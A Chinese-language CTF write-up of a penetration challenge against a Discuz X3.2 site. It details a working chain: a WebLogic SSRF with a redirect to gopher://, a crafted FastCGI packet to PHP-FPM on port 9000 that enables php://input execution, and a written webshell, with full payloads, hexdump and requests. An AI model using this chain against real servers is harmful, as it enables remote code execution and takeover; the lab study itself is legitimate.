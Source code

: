 # 三个白帽之来自星星的你（一）writeup

第一次正式做三个白帽的题目，能做出来挺不容易，还踩了很多坑...

0x00 挑战介绍
=========

来自星星的你被我给丢了，我可能需要用我所有的一切才能把你找回，编了两句就编不下去了，好吧，我承认这是一期渗透题，就是这么直接。

*   tips 1: SSRF
*   tips 2: 或许可以扫描下目录？
*   tips 3: /console/ 这个目录会对你有帮助

0x01 wp
=======

* * *

Discuz X3.2
-----------

打开页面首先是Discuz X3.2的站，搜了搜发现是6月1号才发布的新版本，稍微搜了搜网上的几个洞发现都已经被修复了，于是咸鱼了一夜，获得**hint:ssrf**

搜索依法发现长亭的rr菊苣发了一篇文章

[https://blog.chaitin.com/gopher-attack-surfaces/](https://blog.chaitin.com/gopher-attack-surfaces/)

里面提到discuz X3.2存在ssrf，利用ssrf+gopher协议可getshell

但是这个利用方式有个一个很重要的问题就是服务器必须开启 Gopher wrapper，且php运行方式是fastcgi。

扫一波目录发现了info.php，通过phpinfo()我们发现并没有开启 Gopher wrapper。

咸鱼了一会儿发现了**hint3/console/**

通过这个发现存在weblogin站。。。

webLogin
--------

这里的洞很简单了，稍微搜下发现

[WooYun: 央视网SSRF可窥探内网（Weblogic SSRF案例）](http://drops.com:8000/%3Ca%20target=)">[WooYun: 央视网SSRF可窥探内网（Weblogic SSRF案例）](http://www.wooyun.org/bugs/wooyun-2015-0136698)

测试发现**http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp**这里的洞确实存在。

而且可以配合前面提到的gopher协议getshell

根据长亭博客的文章首先测试

在服务器构造

```
<?php
header("Location:gopher://服务器ip:2333/_test");
?>

```

然后在服务器监听2333端口

```
nc -lvv 2333

```

提交请求

```
http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp?
operator=http://服务器ip/gopher.php
&rdoSearch=name
&txtSearchname=sdf
&txtSearchkey=

```

发现确实收到了test，确认gopher可利用

那么就是构造payload了

有篇很重要的文章关于fastcgi的利用

[http://zone.wooyun.org/content/1060](http://zone.wooyun.org/content/1060)

用exp生成payload

```
./fcgi_exp system 127.0.0.1 2333 /opt/discuz/info.php "echo ‘$_GET[x]($_POST[xx]);’ > /opt/discuz/data/test.php"

```

监听2333端口

```
nc -lvv 2333 > 1.txt

```

我们可以看下1.txt

```
root@ubuntu:/home/wwwroot/default/fcgi_exp# xxd 1.txt
0000000: 0101 0001 0008 0000 0001 0000 0000 0000  ................
0000010: 0104 0001 0112 0600 0f14 5343 5249 5054  ..........SCRIPT
0000020: 5f46 494c 454e 414d 452f 6f70 742f 6469  _FILENAME/opt/di
0000030: 7363 757a 2f69 6e66 6f2e 7068 700d 0144  scuz/info.php..D
0000040: 4f43 554d 454e 545f 524f 4f54 2f0f 1053  OCUMENT_ROOT/..S
0000050: 4552 5645 525f 534f 4654 5741 5245 676f  ERVER_SOFTWAREgo
0000060: 202f 2066 6367 6963 6c69 656e 7420 0b09   / fcgiclient ..
0000070: 5245 4d4f 5445 5f41 4444 5231 3237 2e30  REMOTE_ADDR127.0
0000080: 2e30 2e31 0f08 5345 5256 4552 5f50 524f  .0.1..SERVER_PRO
0000090: 544f 434f 4c48 5454 502f 312e 310e 0343  TOCOLHTTP/1.1..C
00000a0: 4f4e 5445 4e54 5f4c 454e 4754 4831 3033  ONTENT_LENGTH103
00000b0: 0e04 5245 5155 4553 545f 4d45 5448 4f44  ..REQUEST_METHOD
00000c0: 504f 5354 095b 5048 505f 5641 4c55 4561  POST.[PHP_VALUEa
00000d0: 6c6c 6f77 5f75 726c 5f69 6e63 6c75 6465  llow_url_include
00000e0: 203d 204f 6e0a 6469 7361 626c 655f 6675   = On.disable_fu
00000f0: 6e63 7469 6f6e 7320 3d20 0a73 6166 655f  nctions = .safe_
0000100: 6d6f 6465 203d 204f 6666 0a61 7574 6f5f  mode = Off.auto_
0000110: 7072 6570 656e 645f 6669 6c65 203d 2070  prepend_file = p
0000120: 6870 3a2f 2f69 6e70 7574 0000 0000 0000  hp://input......
0000130: 0104 0001 0000 0000 0105 0001 0067 0100  .............g..
0000140: 3c3f 7068 7020 7379 7374 656d 2827 6563  <?php system('ec
0000150: 686f 20e2 8098 5b61 5d28 5b68 685d 293b  ho ...[x]([xx]);
0000160: e280 9920 3e20 2f6f 7074 2f64 6973 6375  ... > /opt/discu
0000170: 7a2f 6461 7461 2f64 646f 672e 7068 7027  z/data/test.php'
0000180: 293b 6469 6528 272d 2d2d 2d2d 3076 6364  );die('-----0vcd
0000190: 6233 346f 6a75 3039 6238 6664 2d2d 2d2d  b34oju09b8fd----
00001a0: 2d0a 2729 3b3f 3e00                      -.');?>.

```

然后需要urlencode一下

```
>>> f = open('1.txt')
>>> ff = f.read()
>>> from urllib import quote
>>> quote(ff)
'%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%12%06%00%0F%14SCRIPT_FILENAME/opt/discuz/info.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%01%00%3C%3Fphp%20system%28%27echo%20%E2%80%98%5Bx%5D%28%5Bxx%5D%29%3B%E2%80%99%20%3E%20/opt/discuz/data/test.php%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00'

```

构造gopher.php

```
<?php
header("gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%12%06%00%0F%14SCRIPT_FILENAME/opt/discuz/info.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%01%00%3C%3Fphp%20system%28%27echo%20%E2%80%98%5Bx%5D%28%5Bxx%5D%29%3B%E2%80%99%20%3E%20/opt/discuz/data/test.php%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00");
?>

```

请求

```
http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp?
operator=http://ip/gopher.php
&rdoSearch=name
&txtSearchname=sdf
&txtSearchkey=
&txtSearchfor=
&selfor=Business+location
&btnSubmit=Search

```

由于discuz的data默认可写，所以成功写入webshell，有个问题就是不知道为什么一直不能反弹shell进来

0x02 题目之后？
==========

* * *

在做完题目之后想要深究一波原理，结果突然发现题目其实去年的hitcon quals的web400 lalala

[http://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97](http://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97)

整个题目的核心概念就是通过302 绕过限制 SSRF，然后通过 SSRF 中的 gopher 去利用本地的 FastCGI prtocol 实现远程代码执行

实际中如果php fastcgi对公网开放，那么就可以拿shell

php-fpm默认监听9000端口，使用 PHP_ADMIN_VALUE 把 allow_url_include 设为 on 以及新增 auto_prepend_file，利用php://input执行php代码写一个shell